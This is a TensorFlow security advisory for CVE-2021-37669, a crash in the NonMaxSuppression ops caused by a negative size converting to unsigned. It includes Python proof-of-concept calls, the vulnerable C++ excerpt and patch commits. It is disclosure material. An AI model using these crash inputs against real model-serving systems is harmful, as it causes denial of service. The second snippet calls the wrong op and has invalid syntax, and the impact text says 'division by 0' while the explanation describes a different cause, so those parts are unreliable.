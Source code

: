 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2021-143.md
## TFSA-2021-143: Crash in NMS ops caused by integer conversion to unsigned

### CVE Number
CVE-2021-37669

### Impact
An attacker can cause denial of service in applications serving models using
`tf.raw_ops.NonMaxSuppressionV5` by triggering a division by 0:

```python
import tensorflow as tf

tf.raw_ops.NonMaxSuppressionV5(
  boxes=[[0.1,0.1,0.1,0.1],[0.2,0.2,0.2,0.2],[0.3,0.3,0.3,0.3]],
  scores=[1.0,2.0,3.0],
  max_output_size=-1,
  iou_threshold=0.5,
  score_threshold=0.5,
  soft_nms_sigma=1.0,
  pad_to_max_output_size=True)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/460e000de3a83278fb00b61a16d161b1964f15f4/tensorflow/core/kernels/image/non_max_suppression_op.cc#L170-L271)
uses a user controlled argument to resize a `std::vector`:

```cc
  const int output_size = max_output_size.scalar<int>()();
  // ...
  std::vector<int> selected;
  // ...
  if (pad_to_max_output_size) {
    selected.resize(output_size, 0);
    // ...
  }
```

However, as `std::vector::resize` takes the size argument as a `size_t` and
`output_size` is an `int`, there is an implicit conversion to usigned. If the
attacker supplies a negative value, this conversion results in a crash.

A similar issue occurs in `CombinedNonMaxSuppression`:

```python
import tensorflow as tf

tf.raw_ops.NonMaxSuppressionV5(
  boxes=[[[[0.1,0.1,0.1,0.1],[0.2,0.2,0.2,0.2],[0.3,0.3,0.3,0.3]],[[0.1,0.1,0.1,0.1],[0.2,0.2,0.2,0.2],[0.3,0.3,0.3,0.3]],[[0.1,0.1,0.1,0.1],[0.2,0.2,0.2,0.2],[0.3,0.3,0.3,0.3]]]],
  scores=[[[1.0,2.0,3.0],[1.0,2.0,3.0],[1.0,2.0,3.0]]],
  max_output_size_per_class=-1,
  max_total_size=10,
  iou_threshold=score_threshold=0.5,
  pad_per_class=True,
  clip_boxes=True)
```

### Patches
We have patched the issue in GitHub commit
[3a7362750d5c372420aa8f0caf7bf5b5c3d0f52d](https://github.com/tensorflow/tensorflow/commit/3a7362750d5c372420aa8f0caf7bf5b5c3d0f52d)
and commit
[b5cdbf12ffcaaffecf98f22a6be5a64bb96e4f58](https://github.com/tensorflow/tensorflow/commit/b5cdbf12ffcaaffecf98f22a6be5a64bb96e4f58).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.

